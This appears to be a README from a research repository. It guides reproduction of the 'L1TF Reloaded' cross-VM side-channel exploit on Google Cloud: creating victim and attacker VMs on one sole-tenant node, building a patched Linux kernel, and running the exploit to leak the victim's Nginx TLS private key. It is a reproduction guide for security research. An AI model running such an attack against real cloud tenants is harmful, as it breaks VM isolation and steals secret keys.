 # Setting up the VMs

Make sure you have a functioning Google Cloud account.

## Create Sole-Tenant Node
- In the Google Compute Engine overview webpage, go to "Sole-tenant nodes".
- Click "Create node group", and:
  - Pick some "region" and "zone";
  - Create (or pick) a node template with:
    - "Node type" = n1-node-96-624; (Note: if not listed; pick another region/zone)
    - Enable "CPU overcommit".
  - Keep "Autoscaling" = off;
  - Pick "Number of nodes" = 1;
  - Keep the default maintenance and share settings.

## Create Victim VM
- In the Google Compute Engine overview webpage, go to "Sole-tenant nodes".
- Pick (one of) your node group(s) based on a "n1-node-96-624" template.
- Click "create instance", and:
  - Set the "name", to e.g. `gce-victim`
  - Keep all other settings default, which means 2 vCPUs, 7.5 GB Memory, 10GB disk with Debian 12 Bookworm OS, etc.
  - "Create" the VM instance.
- Copy `setup/install_nginx_https.sh` script over to `gce-victim` and run it to install the Nginx webserver and configure it to HTTPS.
  The output should contain the private key of a newly generated, self-signed TSL certificate,
  and an example webpage containing "Welcome to nginx!".

## Create Attacker VM

Create the `gce-attacker` VM via the Google Cloud Console,
similar to the victim VM, except for making its disk bigger: 50GB.
(We need some space to compile the Linux kernel.)

Install standard packages, download the L1TF Reloaded repo, and install a custom kernel that speeds up L1TF on `gce-attacker`:
```
sudo apt install -y git locales-all fakeroot git kernel-wedge quilt ccache flex bison libssl-dev dh-exec rsync libelf-dev bc libncurses-dev lz4 liblz4-dev libgmp3-dev tmux
git clone git@github.com:vusec/l1tf_reloaded.git
git clone git@github.com:torvalds/linux.git --branch v6.13 --depth 1
cd linux
git apply ../l1tf_reloaded/setup/l1tf-pf.patch
cp ../l1tf_reloaded/setup/kconfig .config
make -j2 bindeb-pkg
printf "\nGRUB_DISABLE_SUBMENU=y\n" | sudo tee /etc/default/grub
sudo dpkg -i ../linux-*.deb
```

Building the kernel takes almost 2 hours, so you might want to run it in the background in a tmux session.

Reboot the VM into the just installed `l1tf-pf` kernel (`sudo reboot`).
After reboot, ensure `uname -r` gives back `6.13.0-l1tf-pf+`.

## The Exploit

Go into the `l1tf_reloaded` directory. Load the required dependencies and install the needed kernel modules:
```
make load_modules
```

Ensure `include/config.h` holds the following configuration:
```
#define MACHINE GCE
#define HELPERS 0
#define LEAK L1TF
```

Build the exploit:
```
make exploit
```

Run the exploit:
```
make
```

This will take many hours, hence we recommend running this inside a tmux session or similar.
Output of `stdout` will go to the screen as well as the file `std.out`, and extra
verbose `stderr` output is saved in the file `std.err`.

If all goes well, you expect to see something similar to our demo, resulting in a leaked private key.
To check its correctness, compare it against the true key of the victim's Nginx webserver,
located at `gce-victim:/etc/ssl/private/nginx-selfsigned.key`.
